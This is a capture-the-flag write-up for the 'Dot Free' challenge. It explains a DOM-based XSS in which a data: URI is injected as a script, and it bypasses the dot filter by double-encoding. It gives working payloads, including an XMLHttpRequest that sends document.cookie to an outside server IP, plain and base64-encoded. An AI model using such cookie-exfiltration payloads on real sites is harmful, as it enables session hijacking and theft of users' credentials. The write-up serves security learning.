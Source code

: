 # Dot Free

By taking a look at  the challenge, it basically tries to send some messages between an iframe and window. Javascript on page, takes the query part of URI using `location.search.substr(1)` and decodes the URL encoding applied by browser, then it will be passed to JSON parse.  
Then `EventListener` on message receives the sent message on `window.load` action. Then it retrieves the objects data using e.data... We can find the structure of JSON by going through the way it parses received JSON object. The first key is `iframe` and it should have `value` key inside. The value of iframe object is the src data of this object. But, it perform checks for existence of any dot or back slash, and in case of any match, it will ignore the payload.  
After that, it will send the iframe src value to `lls()` function which will consequently append it as a Javascript tag in the body of loaded page.  

Therefore, the first payload I tested was a simple alert to make sure idea is working:  

http://13.57.104.34/?{%22iframe%22:{%22value%22:%22data:text/html,alert(window%252edocument%252edomain);%22}}  

Awesome, we got domain name!! Challenge is pretty straightforward and may be flag is in the `document.cookie` of admin. So, let’s grab it!  

As you see I double encoded any dot (`%2e`) and slash (`%2f`) which results in:  
> `: →  %25%2e, \ → %25%2f`  

http://13.57.104.34/?{%22iframe%22:{%22value%22:%22data:text/html,var%20xhr=new%20XMLHttpRequest();xhr%252eopen(%27GET%27,%20%27http:%252f%252f35%252e226%252e92%252e164/cookie%252ephp?c=%27%20+%20window%252edocument%252ecookie,true);xhr%252esend();%22}}

Shortly, I received flag in the log files of my server...  
`flag=rwctf{L00kI5TheFlo9}`  

> Note_1: I could even use base64 encoding instead of double encoding of my payload:
> > http://13.57.104.34/?{"iframe":{"value":"data:text/html;base64,dmFyIHhocj1uZXcgWE1MSHR0cFJlcXVlc3QoKTt4aHIub3BlbignR0VUJywgJ2h0dHA6Ly8zNS4yMjYuOTIuMTY0L2Nvb2tpZS5waHA/Yz0nICsgd2luZG93LmRvY3VtZW50LmNvb2tpZSx0cnVlKTt4aHIuc2VuZCgpOw=="}}  

> Note_2: your server has another bug which leaks parts of source code because of debugging stuff:  

```
POST /Recieve/ HTTP/1.1
Host: 13.57.104.34

url[]=
```  

`https://pastebin.com/rL9BVZMY`  

Sincerely,  
@pwnslinger :shell: :fish: (@shellphish)  
